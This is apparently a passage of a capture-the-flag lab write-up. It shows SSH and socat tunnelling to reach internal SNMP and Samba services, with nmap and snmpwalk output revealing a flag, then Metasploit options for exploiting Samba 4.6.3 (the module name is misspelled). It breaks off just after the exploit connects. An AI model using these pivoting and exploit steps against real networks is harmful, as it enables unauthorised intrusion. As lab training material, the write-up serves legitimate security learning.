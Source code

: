 `ssh crease@127.0.0.1 -p 8081`

creating tcp tunnel to tunnel udp: `ssh -L 8082:10.112.3.12:8080 whistler@127.0.0.1 -p 8080 -N`

on crease: `socat TCP4-LISTEN:8080,fork,reuseaddr UDP4:10.24.13.161:161`

on my laptop: `socat UDP-recvfrom:161,fork TCP4:localhost:8082`

UDP-LISTEN did not give a stable connection; the first connection would passthrough, but would return 'connection refused' for more complex commands like nmap.

```
$ sudo nmap 127.0.0.1 -Pn -sU -p 161 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 20:21 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: snmpd-1
```

`snmpwalk -v1 -c public 127.0.0.1`

The output from snmpwalk gives us the flag:

```
SNMPv2-MIB::sysDescr.0 = STRING: Linux 446f274a9fc1 4.15.0-66-generic #75-Ubuntu SMP Tue Oct 1 05:24:09 UTC 2019 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (11819245) 1 day, 8:49:52.45
SNMPv2-MIB::sysContact.0 = STRING: ts{UDPthroughTCPtunnels}
SNMPv2-MIB::sysName.0 = STRING: snmpd-1
```

## Exercise 9: 9 Samba
`There is a samba server at 10.24.13.10, find a flag sitting in the root file system /`

This one took me longer than it should have for what it was
- through testing w/ socat, tcp&udp port 137 and udp port 139 was closed, which is why I suspect that a lot of the smb enumeration tools were failing (ie smbmap)
- version of samba is 4.6.3
- had to bust out metasplot for this; creating a symlink to the rootfs didnt work (probably didnt have admin privs required), but linux/samba/is_known_pipeline worked beautifully

`ssh -L 8010:10.112.3.12:8080 whistler@127.0.0.1 -p 8080`

on crease: `socat TCP-LISTEN:8080,reuseaddr,fork TCP:10.24.13.10:139`

msf: `linux/samba/is_known_pipeline` 

- rhosts->127.0.0.1
- rport->8010 
- smb_share_name->myshare
- smb_folder->blook (name is arbitrary for smb_folder)

Then in metasploit, after successful exploit and a conection is made: 

